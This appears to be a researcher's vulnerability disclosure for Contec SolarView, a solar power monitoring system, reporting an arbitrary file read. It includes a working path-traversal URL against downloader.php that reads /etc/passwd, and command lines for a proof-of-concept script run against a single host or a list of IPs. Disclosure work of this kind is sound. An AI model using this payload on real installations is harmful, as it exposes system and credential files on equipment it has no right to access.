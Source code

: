 # **太阳能发电监视系统（SolarView™）**

## Vulnerability description

Vulnerability name : Japan Contec Solar Power Monitoring System
(SolarView™) is not authorized to read arbitrary files.

Affected entity manufacturer name: Japan Contec Co., Ltd.

Affected Entity Name：**SolarView**

Introduction link：

<https://www.contec.com/cn/products-services/environmental-monitoring/solarview/>

## **security researcher**

name1: peishilong

Please contact email: <peisylon@foxmail.com>

## **Home Screenshot:**

![](./images/media/image1.png){width="5.759027777777778in"
height="2.229861111111111in"}

![](./images/media/image2.png){width="5.7625in"
height="3.1743055555555557in"}

## **Vulnerability location:**

Arbitrary file reading:

<http://ip:port/downloader.php?file=/home/contec/conf/../../../../../../etc/passwd>


![](./images/media/image4.png){width="5.7625in"
height="2.892361111111111in"}

POC:

python \"Contec SolarView arbitrary file read.py\" -f ip.txt

python \"Contec SolarView arbitrary file read.py\" -u http://ip:port

![](./images/media/image5.png){width="5.756944444444445in"
height="1.6194444444444445in"}
